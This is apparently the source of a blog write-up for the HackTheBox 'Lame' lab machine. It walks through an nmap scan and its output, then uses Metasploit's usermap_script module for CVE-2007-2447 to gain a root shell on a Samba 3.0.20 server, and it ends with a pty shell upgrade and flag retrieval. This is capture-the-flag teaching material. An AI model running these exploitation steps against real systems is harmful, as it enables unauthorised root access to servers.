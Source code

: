 ```yaml
---
layout: post                                                                 
title: "HTB Writeup: Lame"                                     
date: 2023-03-12 09:00:00 -0500                                              
description: Lame is an easy HackTheBox machine created by ch4p. It involves exploiting a vulnerable samba server.                                            
img: htb-lame/lame-info-card.png                                                 
tags: [HackTheBox, HTB, Lame, Samba, Writeup, CVE-2007-2447]
---
```


Lame is an easy HackTheBox machine created by [ch4p](https://app.hackthebox.com/users/1). It involves some simple enumeration and the exploitation of a known Samba vulnerability.

# Enumeration 

To kick off this box, let's run a Nmap scan to see what services and ports are open. 

```
nmap -sC -sV 10.129.203.142 -oN top_1000
```

The scan shows that the ports for FTP (21), SSH (22), and Samba (139 & 445) are open. 

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.57
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

 smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-03-12T11:43:07-04:00
```

# Exploitation
Samba is infamously known for being chock-full of vulnerabilities. So, I'm going to start by checking for known exploits. After a quick Google search, I found that Samba 3.0.20 is vulnerable to [CVE-2007-2447](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/samba/usermap_script) A.K.A. "Samba Username Map Script Command Execution". 

This exploit is conveniently a Metasploit module. So, I will use Metasploit to carry out this attack. 

To begin, I'll type `msfconsole` into the commandline. 

From there, I'll find the module by using Metasploit's search feature:

```
msf6 > search "samba 3.0.20"

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```

The exploit is the only one available. To get Metasploit to use this module, type `use 0` and then `show options`. 

You should get something that looks like this:

![msf options]({{site.baseurl}}/assets/img/htb-lame/msf-options.png)   

From here, I'll set the `LHOSTS` and `RHOSTS` parameters. 

- LHOST is your listening address. For most people, this will be equal to your `tun0` value (you can find this by using the `ifconfig` command). 
- RHOSTS is the machine's IP address. 

To set these values, use the following commands: 

_Note: Sub \<ip_address\> for Lame's IP address._ 

```
set RHOSTS <ip_address>
set LHOST tun0
```

Once those values are set, we can exploit the machine! Do this by typing `exploit` and pressing `Enter`! If all went well, you should have a root shell on the machine (A.K.A INFINITE POWER :joy:).

_Optional: To make your shell look better, use this Python one-liner:_
```
python -c 'import pty; pty.spawn("/bin/bash");'
```

From here, you can collect the user and root flags by running the following commands.

```
[User] cat /home/makis/user.txt
[Root] cat /root/root.txt
```

I hope you enjoyed this writeup! Happy Hacking :) 

